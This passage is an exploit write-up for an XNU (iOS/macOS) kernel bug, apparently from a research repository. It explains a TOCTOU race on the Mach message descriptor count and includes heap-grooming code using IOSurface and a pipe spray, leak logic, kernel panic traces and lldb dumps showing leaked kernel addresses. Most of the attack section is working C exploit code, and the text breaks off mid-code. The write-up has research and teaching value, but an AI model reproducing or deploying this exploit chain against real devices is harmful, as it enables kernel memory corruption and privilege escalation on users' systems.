Zone info:
Foreign   : 0xfffffe0018904000 - 0xfffffe0018918000
Native    : 0xfffffe1000654000 - 0xfffffe3000654000
Readonly  : 0 - 0
Metadata  : 0xfffffe47c6860000 - 0xfffffe47d2800000
Bitmaps   : 0xfffffe47c6864000 - 0xfffffe47c7c1c000
CORE 0: PC=0x0000000100390770, LR=0x00000001b96f94ec, FP=0x000000016faf6fe0
CORE 1: PC=0xfffffe0011bae3fc, LR=0xfffffe0011bad3b4, FP=0xfffffe302d5ef7b0
CORE 2 is the one that panicked. Check the full backtrace for details.
CORE 3: PC=0x0000000104d87b94, LR=0x0000000104d87bf8, FP=0x000000016b29ced0
Panicked task 0xfffffe18bc4c4dd0: 142 pages, 3 threads: pid 534: poc
Panicked thread: 0xfffffe18be39ad48, backtrace: 0xfffffe302d6aeda0, tid: 3926
		  lr: 0xfffffe001106ba08  fp: 0xfffffe302d6aee30
		  lr: 0xfffffe00114972c0  fp: 0xfffffe302d6aee50
		  lr: 0xfffffe001146e1b8  fp: 0xfffffe302d6aef30
		  lr: 0xfffffe001146956c  fp: 0xfffffe302d6af000
		  lr: 0xfffffe001146879c  fp: 0xfffffe302d6af010
		  lr: 0xfffffe001106b148  fp: 0xfffffe302d6af3c0
		  lr: 0xfffffe001106c064  fp: 0xfffffe302d6af430
		  lr: 0xfffffe00127c7df4  fp: 0xfffffe302d6af450
		  lr: 0xfffffe00127e07f0  fp: 0xfffffe302d6af480
		  lr: 0xfffffe00127be8d0  fp: 0xfffffe302d6af520
		  lr: 0xfffffe00127be434  fp: 0xfffffe302d6af550
		  lr: 0xfffffe00127be664  fp: 0xfffffe302d6af780
		  lr: 0xfffffe00127bc790  fp: 0xfffffe302d6af7b0
		  lr: 0xfffffe001100d77c  fp: 0xfffffe302d6afb50
		  lr: 0xfffffe0011047860  fp: 0xfffffe302d6afcb0
		  lr: 0xfffffe001144ec50  fp: 0xfffffe302d6afe40
		  lr: 0xfffffe0011469ab0  fp: 0xfffffe302d6aff10
		  lr: 0xfffffe001146879c  fp: 0xfffffe302d6aff20
...
```

# How to exploit

## 1. `IOSurface_setCapacity_0x2000`

While IOSurface is a driver primarily used for processing and computation of graphic buffers, it’s frequently utilized to obtain kernel read/write primitives now that userland method via hsp4 kernel patch has been blocked.

After opening user client to communicate with kernel driver, method 6, `IOSurfaceRootUserClient::s_create_surface_fast_path`, is invoked multiple times to force the allocation of `m_IOSurfaceClientArrayPointer` with size of 0x10000 in kernel.

```cpp
int surfaces[2][4096] = {0};
io_service_t IOSRUC[2] = {0};

int IOSurface_setCapacity_0x2000() {
    kern_return_t ret = _host_page_size(mach_host_self(), (vm_size_t*)&pagesize);
    if (ret) {
        printf("[-] Failed to get page size! 0x%x (%s)\n", ret, mach_error_string(ret));
        return ret;
    }
    
    io_connect_t IOSurfaceRoot = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("IOSurfaceRoot"));
    if (!MACH_PORT_VALID(IOSurfaceRoot)) {
        printf("[-] Failed to find IOSurfaceRoot service\n");
        return KERN_FAILURE;
    }
    
    ret = IOServiceOpen(IOSurfaceRoot, mach_task_self(), 0, &IOSRUC[0]);
    if (ret || !MACH_PORT_VALID(IOSRUC[0])) {
        printf("[-] Failed to open IOSRUC: 0x%x (%s)\n", ret, mach_error_string(ret));
        return ret;
    }
    
    ret = IOServiceOpen(IOSurfaceRoot, mach_task_self(), 0, &IOSRUC[1]);
    if (ret || !MACH_PORT_VALID(IOSRUC[1])) {
        printf("[-] Failed to open IOSRUC: 0x%x (%s)\n", ret, mach_error_string(ret));
        return ret;
    }
    
    struct IOSurfaceFastCreateArgs create_args = {
        .alloc_size = pagesize
    };
    
    struct IOSurfaceLockResult lock_result;
    size_t lock_result_size = 0xf60;
    
    for (int i = 0; i < 4096; i++) {
        ret = IOConnectCallMethod(IOSRUC[0], IOSurfaceRootUserClient_create_surface_selector, NULL, 0, &create_args, sizeof(create_args), NULL, NULL, &lock_result, &lock_result_size);
        if (ret) {
            printf("[-] Failed to create IOSurfaceClient: 0x%x (%s)\n", ret, mach_error_string(ret));
            return ret;
        }
    
        surfaces[0][i] = lock_result.surface_id;
    }
    
    for (int i = 0; i < 4096; i++) {
        release_IOSurface(IOSRUC[0], surfaces[0][i]);
        surfaces[0][i] = 0;
    }
    
    for (int i = 0; i < 4096; i++) {
        ret = IOConnectCallMethod(IOSRUC[1], IOSurfaceRootUserClient_create_surface_selector, NULL, 0, &create_args, sizeof(create_args), NULL, NULL, &lock_result, &lock_result_size);
        if (ret) {
            printf("[-] Failed to create IOSurfaceClient: 0x%x (%s)\n", ret, mach_error_string(ret));
            return ret;
        }
#if DEBUG
        printf("[i] Surface id: %d\n", lock_result.surface_id);
#endif
        surfaces[1][i] = lock_result.surface_id;
        
        if (surfaces[1][i] == 8100) break;
    }
    
    return 0;
}

void exploit() {
    printf("[*] Setting up exploit\n");
    
    IOSurface_setCapacity_0x2000();
    
    ...

}
```

`m_IOSurfaceClientArrayPointer` field of `IOSurfaceRootUserClient` object is allocated by internally calling `IOMallocZero` within `IOSurfaceRootUserClient::alloc_handles`. Since  `i_IOSurfaceHandleTotalCapability` value is set to 0x2000 through multiple method calls, total size of 0x10000 is ultimately allocated in the kernel.

Note that because size 0x10000 exceeds the maximum zone management size of 32,768 (=0x8000), the allocation is performed via call to `kalloc_large` rather than `kalloc_zone`.

As you will see when examining the process step-by-step, `kernel_map` is passed as 1st argument when calling `kmem_alloc_guard`.

The call path leading up to allocation via `IOMallocZero` is as follows.
`IOSurfaceRootUserClient::s_create_surface_fast_path`
→ `IOSurfaceRootUserClient::create_surface_fast_path`
→ `IOSurfaceClient::withBuffer`
→ `IOSurfaceClient::init`
→ `IOSurfaceRootUserClient::set_surface_handle`
→ `IOSurfaceRootUserClient::alloc_handles`

`IOMallocZero` allocates kernel memory using KHEAP_KEXT type, It’s important to remember that KHEAP_DEFAULT and KHEAP_KEXT types share kernel allocation submaps.
(However, this does NOT apply to VMApple).

```cpp
bool __fastcall IOSurfaceRootUserClient::alloc_handles(IOSurfaceRootUserClient *this)
{
  __int64 i_IOSurfaceHandleTotalCapability; // x24
  IOSurfaceClient **m_IOSurfaceClientArrayPointer; // x19
  __int64 i_surfaceClientCapacity; // x23
  IOSurfaceClient **v5; // x0
  IOSurfaceClient **v6; // x20

  i_IOSurfaceHandleTotalCapability = (unsigned int)this->IOSurfaceRoot->i_IOSurfaceHandleTotalCapability;
  m_IOSurfaceClientArrayPointer = this->m_IOSurfaceClientArrayPointer;
  i_surfaceClientCapacity = (unsigned int)this->i_surfaceClientCapacity;
  v5 = (IOSurfaceClient **)j__IOMallocZero_17(8 * i_IOSurfaceHandleTotalCapability);
  v6 = v5;
  this->m_IOSurfaceClientArrayPointer = v5;
  if ( v5 )
  {
    this->i_surfaceClientCapacity = i_IOSurfaceHandleTotalCapability;
    if ( m_IOSurfaceClientArrayPointer )
    {
      j____memcpy_chk_49(
        v5,
        m_IOSurfaceClientArrayPointer,
        8 * i_surfaceClientCapacity,
        8 * i_IOSurfaceHandleTotalCapability);
      j__IOFree_51(m_IOSurfaceClientArrayPointer, 8 * i_surfaceClientCapacity);
    }
  }
  else
  {
    j__IOLog_83("IONewZero failed to alloc handles");
    this->m_IOSurfaceClientArrayPointer = m_IOSurfaceClientArrayPointer;
  }
  return v6 != 0;
}
```

## 2. `increase_file_limit`

Next, to facilitate the pipe spray, 
Increase file descriptor limit of the current process to 10240.

```cpp
void increase_file_limit() {
    struct rlimit rl = {};
    getrlimit(RLIMIT_NOFILE, &rl);
    rl.rlim_cur = 10240;
    rl.rlim_max = rl.rlim_cur;
    setrlimit(RLIMIT_NOFILE, &rl);
}

void exploit() {
    // allow us to spray a lot of pipes
    increase_file_limit();
    ...
}
```

## 3.  First Pipe Spray and Feng Shui

Create 900 pipes and write data of size (0x4000-1) into each pipe. 

This is equivalent to performing 900 allocations from data.kalloc.16384 zone. By reading from or writing to specific pipe descriptors, the pipe regions allocated in the kernel can be arbitrarily controlled.

Subsequently, resembling Heap Feng Shui, if pipe array index is divisible by 64, the pipe allocation at that index is deallocated to punch holes in the layout.

```cpp
// how many pipes to spray
#define N_SPRAY 900

// size of each pipe buffer
#define KALLOC_SIZE 0x4000

void exploit() {
    ...
    // original writeup uses a mach message for this, but we'd have to fix up the trailer to avoid breaking its signature, also pipes allow us to write back without reallocating
    printf("[*] Spraying pipe buffers\n");
    size_t pipe_count = N_SPRAY;
    void *pipe_buf = calloc(1, KALLOC_SIZE);
    memset(pipe_buf, 0, KALLOC_SIZE);
    int *pipefds = create_pipes(&pipe_count);
    pipe_spray(pipefds, pipe_count, pipe_buf, KALLOC_SIZE, NULL);
#if ENABLE_HELPER
    for(int i = 0; i < pipe_count; i++) {
        uint64_t kspace = obtain_pipe_kaddr(pipefds[2 * i]);
        printf("[*] kspace; Allocated pipe kaddr = 0x%llx, rfd = 0x%llx\n", kspace, pipefds[2 * i]);
    }
#endif    
    

    // -----------+-----------+-----------+------------+-----------
    //    pipe1   |   pipe2   |    ...    |  pipe900  |
    // -----------+-----------+-----------+------------+-----------
    //
    
    // poke some holes to increase chance of landing right after a pipe
    printf("[*] Poking holes\n");
    fflush(stdout);

    for(int i = 0; i < pipe_count; i++) {
        if (i % 64 == 0) {
#if ENABLE_HELPER
            printf("[*] Freed pipe kaddr = 0x%llx, i = %d\n", obtain_pipe_kaddr(pipefds[2 * i]), i);
#endif
            close(pipefds[2 * i]);
            close(pipefds[2 * i + 1]);
            pipefds[2 * i] = 0;
            pipefds[2 * i + 1] = 0;
        }
    }
  
    // -----------+-----------+-----------+------------+------------+------------+-----------
    //    pipe1   |   pipe2   |    ...    |   pipe64   |    FREE    |   pipe67   |    ...
    // -----------+-----------+-----------+------------+------------+------------+-----------
    //
}

void
set_nonblock(int fd) {
    int flags = fcntl(fd, F_GETFL);
    flags |= O_NONBLOCK;
    fcntl(fd, F_SETFL, flags);
}

int *
create_pipes(size_t *pipe_count) {
    // Allocate our initial array.
    size_t capacity = *pipe_count;
    int *pipefds = calloc(2 * capacity, sizeof(int));
    assert(pipefds != NULL);
    // Create as many pipes as we can.
    size_t count = 0;
    for (; count < capacity; count++) {
        // First create our pipe fds.
        int fds[2] = { -1, -1 };
        int error = pipe(fds);
        // Unfortunately pipe() seems to return success with invalid fds once we've
        // exhausted the file limit. Check for this.
        if (error != 0 || fds[0] < 0 || fds[1] < 0) {
            pipe_close(fds);
            break;
        }
        // Mark the write-end as nonblocking.
        //set_nonblock(fds[1]);
        // Store the fds.
        pipefds[2 * count + 0] = fds[0];
        pipefds[2 * count + 1] = fds[1];
    }
    assert(count == capacity && "can't alloc enough pipe fds");
    // Truncate the array to the smaller size.
    int *new_pipefds = realloc(pipefds, 2 * count * sizeof(int));
    assert(new_pipefds != NULL);
    // Return the count and the array.
    *pipe_count = count;
    return new_pipefds;
}

size_t
pipe_spray(const int *pipefds, size_t pipe_count,
        void *pipe_buffer, size_t pipe_buffer_size,
        void (^update)(uint32_t pipe_index, void *data, size_t size)) {
    assert(pipe_count <= 0xffffff);
    size_t write_size = pipe_buffer_size - 1;
    size_t pipes_filled = 0;
    for (size_t i = 0; i < pipe_count; i++) {
        // printf("writing now = 0x%x\n", i);

        // Update the buffer.
        if (update != NULL) {
            update((uint32_t)i, pipe_buffer, pipe_buffer_size);
        }
        
        int wfd = pipefds[2 * i + 1];
        int rfd = pipefds[2 * i];
        set_nonblock(wfd);
        set_nonblock(rfd);

        // Fill the write-end of the pipe with the buffer. Leave off the last byte.
        ssize_t written = write(wfd, pipe_buffer, write_size);
        // printf("written = 0x%x\n", written);
        if (written != write_size) {
            // printf("written = 0x%x, write_size = 0x%x\n", written, write_size);
            // This is most likely because we've run out of pipe buffer memory. None of
            // the subsequent writes will work either.
            break;
        }
        pipes_filled++;
    }
    return pipes_filled;
}

```

## 4. Triggering Bug: Leaking `mach_msg_header_t` content and `mach_msg_ool_ports_descriptor_t` array content

As explained in initial "Bug analysis" step, TOCTOU (Time-of-Check to Time-of-Use) vulnerability occurs because descriptor count is re-read and applied at specific point.

The specific moments the descriptor count is read are exactly:

1. First, when descriptors are read during the call to `ipc_kmsg_alloc` (xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:1973).
2. Second, when it is read by `copyinmsg` within `ipc_kmsg_get_user` (xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:1999).

Examining the code that triggers the vulnerability, it repeatedly sends and destroys `kmsg`. During this process, `race_thread` continuously toggles the descriptor count between 14 (`N_DESC`) and 1014 (`N_CORRUPTED`) in infinite loop.

At some point, this causes `ikm_header` to shift to the left and go out of bounds. This results in an overlap with space to left of one of the deallocated pipe buffers (the holes created earlier)—specifically, the `ikm_header` and part of the port descriptor array content will occupy the pipe buffer.

To verify this, multiple pipes are read; if any content contains the value `0x80000011` (`MACH_MSGH_BITS_COMPLEX | MACH_MSG_TYPE_MOVE_SEND`), the overlap is considered successful.

```cpp
// N_DESC = 14 and N_CORRUPTED = 1014 will make a message have 0x4000 size
// (there are other combinations however for some reason ones where difference is lower don't work?)

#define N_DESC 14
#define N_CORRUPTED 1014

// size of ool buffer
#define OOL_SIZE 0x100
#define BIG_BUFFER_SIZE 0x10000

struct exp_msg {
    mach_msg_header_t hdr; //0x20
    mach_msg_body_t body; //4
    mach_msg_ool_ports_descriptor_t ool_ports; //0x10
    mach_msg_ool_descriptor_t ool_desc[N_CORRUPTED - 1]; //0x3f50
};

struct exp_msg msg;

void exploit() {
    // ool buffer
    void* buf = calloc(1, OOL_SIZE * N_DESC);
    
    void *ports = calloc(1, BIG_BUFFER_SIZE/2); // size of a port in userland is half its size in kernel
    
    // set up the message
    msg.hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg.hdr.msgh_size = (mach_msg_size_t)(sizeof(struct exp_msg));
    msg.hdr.msgh_remote_port = 0;
    msg.hdr.msgh_local_port = MACH_PORT_NULL;
    msg.hdr.msgh_id = 0x12341234;
    
    // set the initial (smaller) descriptor count
    msg.body.msgh_descriptor_count = N_DESC;
    
    // ool ports descriptor
    msg.ool_ports.address = ports;
    msg.ool_ports.count = BIG_BUFFER_SIZE / 8;
    msg.ool_ports.deallocate = 0;
    msg.ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg.ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    msg.ool_ports.disposition = MACH_MSG_TYPE_COPY_SEND;
    
    // ool descriptors
    for (int i = 0; i < N_DESC - 1; i++) {
        msg.ool_desc[i].address = buf + i * OOL_SIZE;
        msg.ool_desc[i].size = OOL_SIZE;
        msg.ool_desc[i].deallocate = 0;
        msg.ool_desc[i].type = MACH_MSG_OOL_DESCRIPTOR;
        msg.ool_desc[i].copy = MACH_MSG_PHYSICAL_COPY;
    }
    
    ...
    printf("[*] Racing\n");
    
    // more reliability voodoo
    pthread_attr_t pattr;
    pthread_attr_init(&pattr);
    pthread_attr_set_qos_class_np(&pattr, QOS_CLASS_USER_INITIATED, 0);
    // start the threads
    pthread_t thread;
    pthread_create(&thread, &pattr, (void*)race_thread, NULL);

    // try up to 100000 times
    for (int i = 0; i < 100000; i++) {

        // create a mach port where we'll send the message
        dest = new_mach_port();
    
        // send
        msg.hdr.msgh_remote_port = dest;
        int ret = mach_msg_send(&msg);
        if (ret) printf("error: %s\n", mach_error_string(ret));

        #if ENABLE_HELPER
        printf("Allocated kmsg, ikm_header = 0x%llx, i = %d\n", xpaci(find_kmsgdata_from_port(msg.hdr.msgh_remote_port)), i);
        #endif
    
        // hopefully (pre-trigger):
        // -----------+-----------+-----------+-----------+------------+-------------+-----------
        //    pipe1   |   pipe2   |    ...    |   pipeN   | ikm_header |   pipeN+2   |    ...
        // -----------+-----------+-----------+-----------+------------+-------------+-----------
        
        // after bug trigger pipeN should overlap with ikm_header:
        
        //                                            +----------------+
        //                                            |                |
        // -----------+-----------+-----------+-----------+            +-------------+-----------
        //    pipe1   |   pipe2   |    ...    |   pipeN   | ikm_header |   pipeN+2   |    ...
        // -----------+-----------+-----------+-----------+------------+-------------+-----------
       
        
        // check if we overwrote one of the pipe buffers
        for (int i = 0; i < pipe_count; i++) {
            if (pipefds[i * 2] && pipefds[i * 2] != opipe[0]) {;
                ssize_t ret = read(pipefds[i * 2], pipe_buf, KALLOC_SIZE);
                if (ret == -1) {
                    printf("[-] Failed to read pipe: %s\n", strerror(errno));
                    continue;
                }
   
                // there seem to be some extra 56 bytes between the two
                int off = KALLOC_SIZE - 4 * (N_CORRUPTED - N_DESC) + 56;
                
                if (*(uint32_t*)(pipe_buf + off) == 0x80000011) {
                    ...
                }
                
                memset(pipe_buf, 0, KALLOC_SIZE);
                write(pipefds[i * 2 + 1], pipe_buf, KALLOC_SIZE - 1);
            }
        }
        
        // if bug didn't work, free message and try again
        // if bug worked but pipes weren't affected then we corrupted something else, let this just panic
        mach_port_destroy(mach_task_self(), dest);
    }
    printf("[-] Exploit failed\n");
    return;
}
        
mach_port_t new_mach_port() {
    mach_port_t port = MACH_PORT_NULL;
    kern_return_t ret = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    if (ret) {
        printf("[-] failed to allocate port\n");
        return MACH_PORT_NULL;
    }
    
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);
    if (ret) {
        printf("[-] failed to insert right\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    mach_port_limits_t limits = {0};
    limits.mpl_qlimit = MACH_PORT_QLIMIT_LARGE;
    ret = mach_port_set_attributes(mach_task_self(), port, MACH_PORT_LIMITS_INFO, (mach_port_info_t)&limits, MACH_PORT_LIMITS_INFO_COUNT);
    if (ret) {
        printf("[-] failed to increase queue limit\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    return port;
}        

void race_thread() {
    while (1) {
        // continue;
        // change the descriptor count back and forth
        // eventually the race will work just right so we get this order of actions:
        // count = N_DESC -> first copyin -> count = N_CORRUPTED -> second copyin
        msg.body.msgh_descriptor_count = N_CORRUPTED;
        msg.body.msgh_descriptor_count = N_DESC;
    }
}
```

Let's highlight a few key points regarding kernel allocation occurring here.

Driven by the code:
`msg.hdr.msgh_size = (mach_msg_size_t)(sizeof(struct exp_msg));` 
`msg.body.msgh_descriptor_count = N_DESC;`

Allocation of size 0x4000 is performed within `ipc_kmsg_alloc` for kmsg using  KHEAP_DATA_BUFFERS type.



Next, driven by the code:
`msg.ool_ports.count = BIG_BUFFER_SIZE / 8;` 
`msg.ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;`

`ipc_kmsg_copyin_ool_ports_descriptor` function is invoked. Consequently, within `kalloc_type` (xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c:3443), allocation of size 0x10000 is ultimately performed using KHEAP_DEFAULT type.



Finally, driven by the code:
`msg.ool_desc[i].size = OOL_SIZE;
msg.ool_desc[i].type = MACH_MSG_OOL_DESCRIPTOR;`

`ipc_kmsg_copyin_ool_descriptor` function is invoked. Through `vm_map_copyin`, it appears to allocate kernel memory of size 0x100, but the type is somewhat peculiar.

It seems to be distinct, fitting neither the KHEAP_DEFAULT nor the KHEAP_DATA_BUFFERS type.







Now, let's enable `ENABLE_HELPER` macro, insert `getchar()` call within  `if (*(uint32_t*)(pipe_buf + off) == 0x80000011) {` block to intentionally pause execution, and analyze kmsg.

Upon execution, we can observe:

- kernel buffer addresses allocated by the pipes,
- addresses of the deallocated pipe kernel buffers where holes were punched,
- and `ikm_header` addresses obtained through repeated allocation and deallocation of kmsg

Finally, we can see that execution stops exactly where `ikm_header` is allocated at address with  distinctive lower byte of “0x98”, caused by TOCTOU. When examining the addresses, overlap occurs at index 895 (`i=895`) among the various pipes.

```cpp
./exp
gClient=0xd0f
gKernelSlide = 0x64b0000, gKernelBase = 0xfffffe000d4b4000
[*] Setting up exploit
surfRoot: 0xfffffe150e980fd0
surfClients: 0xfffffe3000940000
[*] Spraying pipe buffers
[*] kspace; Allocated pipe kaddr = 0xfffffe2287a04000, rfd = 0x3
[*] kspace; Allocated pipe kaddr = 0xfffffe2287a28000, rfd = 0x5
[*] kspace; Allocated pipe kaddr = 0xfffffe22879fc000, rfd = 0x7
...
[*] Poking holes
[*] Freed pipe kaddr = 0xfffffe2287a04000, i = 0
[*] Freed pipe kaddr = 0xfffffe2287cd0000, i = 64
[*] Freed pipe kaddr = 0xfffffe2287dd0000, i = 128
[*] Freed pipe kaddr = 0xfffffe2287ed0000, i = 192
[*] Freed pipe kaddr = 0xfffffe2287fd0000, i = 256
[*] Freed pipe kaddr = 0xfffffe22880d0000, i = 320
[*] Freed pipe kaddr = 0xfffffe22881d0000, i = 384
[*] Freed pipe kaddr = 0xfffffe22882d0000, i = 448
[*] Freed pipe kaddr = 0xfffffe22883d0000, i = 512
[*] Freed pipe kaddr = 0xfffffe22884d0000, i = 576
[*] Freed pipe kaddr = 0xfffffe22885d0000, i = 640
[*] Freed pipe kaddr = 0xfffffe22886d0000, i = 704
[*] Freed pipe kaddr = 0xfffffe22887d0000, i = 768
[*] Freed pipe kaddr = 0xfffffe22888d0000, i = 832
[*] Freed pipe kaddr = 0xfffffe22889d0000, i = 896
[*] Racing
Allocated kmsg, ikm_header = 0xfffffe22889d0038, i = 0
Allocated kmsg, ikm_header = 0xfffffe22889d0038, i = 1
Allocated kmsg, ikm_header = 0xfffffe2287490038, i = 2
Allocated kmsg, ikm_header = 0xfffffe22889d0038, i = 3
...
Allocated kmsg, ikm_header = 0xfffffe2287490038, i = 2197
Allocated kmsg, ikm_header = 0xfffffe22889cf098, i = 2198
```

After TOCTOU has occurred, examination of the contents of `mach_msg_header_t` and `mach_msg_ool_ports_descriptor_t` array reveals the following:

```cpp
(lldb) x/8gx 0xfffffe22889cf098
0xfffffe22889cf098: 0x00004f2480000011 0xfffffe151d567480
0xfffffe22889cf0a8: 0x0000000000000000 0x1234123400000000
0xfffffe22889cf0b8: 0x00950000000003f6 0x02110000fffffe30
0xfffffe22889cf0c8: 0x1e51f20000002000 0x01000000fffffe15
(lldb) x/32gx 0xfffffe22889cf098+0x24
0xfffffe22889cf0bc: 0xfffffe3000950000 0x0000200002110000
0xfffffe22889cf0cc: 0xfffffe151e51f200 0x0000010001000000
0xfffffe22889cf0dc: 0xfffffe151e51c140 0x0000010001000000
0xfffffe22889cf0ec: 0xfffffe151e070a00 0x0000010001000000
0xfffffe22889cf0fc: 0xfffffe151e51c320 0x0000010001000000
0xfffffe22889cf10c: 0xfffffe151e51d040 0x0000010001000000
0xfffffe22889cf11c: 0xfffffe151e51e3a0 0x0000010001000000
0xfffffe22889cf12c: 0xfffffe1511c3ef30 0x0000010001000000
0xfffffe22889cf13c: 0xfffffe151e51d4a0 0x0000010001000000
0xfffffe22889cf14c: 0xfffffe151e51c640 0x0000010001000000
0xfffffe22889cf15c: 0xfffffe151e51c410 0x0000010001000000
0xfffffe22889cf16c: 0xfffffe151e51c8c0 0x0000010001000000
0xfffffe22889cf17c: 0xfffffe151e51c960 0x0000010001000000
0xfffffe22889cf18c: 0xfffffe151e51d9a0 0x0000010001000000
0xfffffe22889cf19c: 0x0000000000000000 0x0000000000000000
0xfffffe22889cf1ac: 0x0000000000000000 0x0000000000000000
```



## 5. Guessing `m_IOSurfaceClientArrayPointer` address based on leaked contents

As previously mentioned - if reading from multiple pipes, and if one of pipes reveals value `0x80000011` (`MACH_MSGH_BITS_COMPLEX | MACH_MSG_TYPE_MOVE_SEND`), it indicates that  `ikm_header` content has overlapped with pipe buffer.

Within the leaked content, `mach_msg_ool_ports_descriptor_t`, which means OOL port descriptor contains address of the 0x10000 byte allocation made using the KHEAP_DEFAULT type. Therefore, by subtracting 0x10000 from this address, allocation address of `m_IOSurfaceClientArrayPointer` field of the `IOSurfaceRootUserClient` object can be calculated.

And, the index of overlapped pipe is stored separately in `opipe` array variable, while all remaining pipes are closed to deallocate their pipe buffers.

```cpp
// how many pipes to spray
#define N_SPRAY 900

// size of ool buffer
#define OOL_SIZE 0x100
#define BIG_BUFFER_SIZE 0x10000

void exploit() {
...
                if (*(uint32_t*)(pipe_buf + off) == 0x80000011) {
                    printf("[+] Found ikm_header at pipe nr. %d\n", i);
                    struct ool_kmsg *kmsg = pipe_buf+off;
                    
#if DEBUG
                    for (int i = 0; i < N_DESC; i++) {
